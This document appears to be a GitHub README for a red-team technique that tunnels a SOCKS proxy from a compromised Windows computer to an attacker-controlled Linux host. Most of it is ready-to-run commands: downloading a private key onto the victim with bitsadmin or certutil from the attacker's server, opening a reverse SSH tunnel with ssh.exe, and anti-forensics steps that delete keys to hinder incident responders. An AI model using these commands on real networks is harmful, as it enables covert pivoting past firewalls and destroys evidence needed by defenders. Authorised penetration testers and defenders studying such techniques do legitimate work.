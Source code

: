 # win-ssh-rvsproxy
Tunneling Socks proxy through Windows.

This document presents a Red Team approach for tunneling a Socks proxy through SSH on a compromised Windows computer from an external attacker-controlled Linux host.  How the Windows computer is compromised is not covered here; the assumption is that you have a way to run commands on the victim host.

The following diagram shows the scenario.  An external attacker system (A) is running sshd to allow tunnel creation, and will also run python SimpleHTTPServer to serve an ephemeral SSH key to allow the Windows computer (B) to log in.  The Windows target (B) will execute the built-in ssh.exe command line utility and create a Socks proxy, through which the attacker (A) can access other systems protected behind the firewall, such as the web server (C).

![alt text](https://github.com/billchaison/win-ssh-rvsproxy/blob/main/01.png)

**Preparing the attack host**<br />

*To configure a low-privilege user without a password as an alternative to relying on SSH keys see the section* **Alternate attack host preparation**

* On host (A) create a disposable SSH key pair.  The key will be destroyed after use in order to prevent reuse by incident responders.<br /><br />
  `cd /root`<br /><br />
  `ssh-keygen -t rsa -b 2048 -N "" -f /root/temp_rsa -q`<br /><br />
  `cat /root/temp_rsa.pub >> /root/.ssh/authorized_keys && chmod 600 /root/.ssh/authorized_keys`<br /><br />
* On host (A) launch python simple HTTP server.  This will allow the victim computer (B) to dynamically fetch the temporary private SSH key to login and start the tunnel.<br /><br />
  `python -m SimpleHTTPServer 80`<br />

**Start the proxy server**<br />

* On the victim Windows computer (B) you will need to find a way to copy the SSH private key to the user's `%tmp%` path in this example.  Two possibilities are as follows.<br /><br />
  `%SYSTEMROOT%\System32\bitsadmin.exe /transfer n http://192.168.1.242/temp_rsa %tmp%\temp_rsa`<br /><br />
  `%SYSTEMROOT%\System32\certutil.exe -urlcache -split -f http://192.168.1.242/temp_rsa %tmp%\temp_rsa`<br /><br />
* On the victim Windows computer (B) create the reverse proxy and tunnel.  Once connected to the attacker computer (A) the temporary key will be stripped from the authorized_keys file and the python web server will be terminated.  Also the private key stored on machine (B) under `%tmp%` will be deleted after the tunnel is destroyed by the attacker.  These are anti-forensics techniques to prevent incident responders from gaining access to your attacker machine (A).<br /><br />
  `%SYSTEMROOT%\System32\OpenSSH\ssh.exe -o StrictHostKeychecking=no -i %tmp%\temp_rsa -R localhost:1080 root@192.168.1.242 "grep -v -f /root/temp_rsa.pub /root/.ssh/authorized_keys > /root/.ssh/authorized_keys.bak && mv /root/.ssh/authorized_keys.bak /root/.ssh/authorized_keys && kill $(lsof -t -i:80) && bash" & del %tmp%\temp_rsa`<br />

**Using the reverse proxy**<br />

From the attacker host (A) you can configure a browser to use the local Socks proxy on 127.0.0.1 port 1080.  You should now be able to access the protected web server (C) by going to `https://10.1.2.4`

Any other protected service behind the firewall could be accessed through Socks tunnel as long as the tools on the attacking machine (A) support Socks or you have proxychains configured to use 127.0.0.1 port 1080.

When you are finished and want to terminate the reverse proxy, issue the following command on the attacker host (A).

`kill $(lsof -t -i:1080)`

**Alternate attack host preparation**<br />

* On Attack host (A) create a low-priv user, remove the password, and allow the user account to log on without a password.<br /><br />
  `adduser tempuser` (supply a password when prompted, will be removed in the next step)<br /><br />
  `passwd -d -u tempuser`<br /><br />
  Edit `sshd_config` and add the following section:<br /><br />
  ```
  Match User tempuser
   PasswordAuthentication yes
   PermitEmptyPasswords yes
   AllowTcpForwarding yes
  ```

  Restart SSH `systemctl restart ssh`<br /><br />
* On the Windows victim computer (B) start the proxy server with this command.  No key is needed:<br /><br />
  `%SYSTEMROOT%\System32\OpenSSH\ssh.exe -o StrictHostKeychecking=no -R localhost:1080 tempuser@192.168.1.242 "bash"`<br /><br />
* To disable the tempuser account on host (A) to prevent further logins, execute the following command:<br /><br />
  `usermod -L tempuser`<br /><br />
  When finished delete the tempuser account `deluser --remove-home tempuser` and clean up `sshd_config`.
